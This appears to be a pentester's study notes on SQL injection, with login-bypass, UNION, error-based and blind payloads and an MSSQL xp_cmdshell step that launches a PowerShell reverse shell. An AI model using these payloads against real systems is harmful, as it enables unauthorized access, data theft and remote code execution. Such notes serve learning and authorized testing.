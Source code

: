 # SQL Injection

On Kali, to connect to an MSSQL database on a Windows machine, do:

```
impacket-mssqlclient ${USER}:${PW}@${RHOST} -windows-auth
```

Start by giving it simple queries that tell you something about what query the web application is attempting to make.
Then, use [these payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) for inspiration on enumeration.

## Error based

When logging into an application, you might see errors from the underlying databases.
This can be a sign of potential for SQL injection.
A good starting point to check for that would be:

```
admin' OR 1=1 -- //
```

This is good against queries such as `SELECT * from users where user=$user and pw=$pw`.
The early `' OR 1=1 -- //` is an attempt at ending the query early by outcommenting the `and...` statement and instead evaluating `1=1`.


A good trick for error based injection, once you have a simple query, is to  `CAST` the value you want to a wrong type:

```
' Union SELECT null, CAST(CURRENT_USER as int), null, null, null, null from user
```

so that the value shows up in the error on the web page.

*Note* the `null,` as the first part of the select-statement.
doing a `CAST` directly after `SELECT` didn't work with postgresql.

### In-band Union based injection

When the results are shown on the page, it can be good to attempt a Union based attack.
This often happens when the underlying database runs a query like

```
SELECT * WHERE UserInfo LIKE $userInput
```
and the result is simply shown on the corresponding website.
Start by enumerating the number of collumns in the table.
Once that is done, you will be able to get a number of columns where you can see the output 


then, we can do futher enumeration like:

```
' UNION SELECT null, user(), @@version, database(), null, null  -- //
```
or enumeration queries as seen in the bottom of this note document.


Obscure way to check if a user is superuser:

```
SELECT usesuper, CASE WHEN (usesuper = true) THEN 1/(SELECT 0) ELSE (SELECT 0) END from pg_user where usename = CURRENT_USER
```

## Blind SQLi


To test for blind boolean-based SQLi, do something like:

```
admin' AND 1=1 -- //
```

This will only return true if the `admin` user exists.

Similarly, for time-based SQLi, we can do something like:

```
admin' AND IF (1=1, sleep(4),'false') 
```
which will return after 4 seconds when `admin` exists.


## Good enumeration queries for MySQL

```
SELECT table_name FROM information_schema.tables
```
equivalent to `SHOW DATABASES`:
```
SELECT schema_name 
FROM information_schema.schemata;
```

## Payloads for RCE

### MSSQL

```
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;
EXEC master.dbo.xp_cmdshell 'powershell -enc $ENCODED_REV_SHELL';
```

